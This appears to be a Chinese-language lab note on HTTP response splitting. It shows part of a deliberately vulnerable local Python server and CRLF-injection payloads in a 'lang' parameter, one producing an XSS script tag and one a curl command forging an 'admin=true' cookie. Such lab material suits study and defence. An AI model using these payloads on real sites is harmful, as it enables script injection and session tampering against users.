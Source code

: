 ```python
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind(('localhost', 5002))
    server.listen(5)

    print("Vulnerable HTTP server started on http://localhost:5002")

    try:
        while True:
            client_socket, address = server.accept()
            client_thread = threading.Thread(
                target=handle_client,
                args=(client_socket, address)
            )
            client_thread.start()
    except KeyboardInterrupt:
        print("\nShutting down server...")
    finally:
        server.close()


if __name__ == '__main__':
    start_server()
```

### <font style="color:rgb(51, 51, 51);">payload</font>
<font style="color:rgb(102, 102, 102);">HTTP 响应头位置使用了未经处理的用户数据 </font>

#### <font style="color:rgb(51, 51, 51);">XSS</font>
```html
http://localhost:5002/set_language?lang=en%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert('XSS')</script>

----
en
Content-Type: text/html

<script>alert('XSS')</script>
```

<font style="color:rgb(51, 51, 51);">curl 测试</font>

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753603337289-e07fe122-4976-4c96-b01d-c1089c9efc19.png)

<font style="color:rgb(51, 51, 51);">浏览器测试</font>

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753603307322-00467d26-1fdc-4bc8-8195-940c6b477d37.png)

#### Cookie劫持：
curl -v "http://localhost:5002/set_language?lang=en%0d%0aSet-Cookie:%20admin=true;%20HttpOnly"

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753604512851-886d003f-f337-470f-a481-8a78ffbf25bc.png)
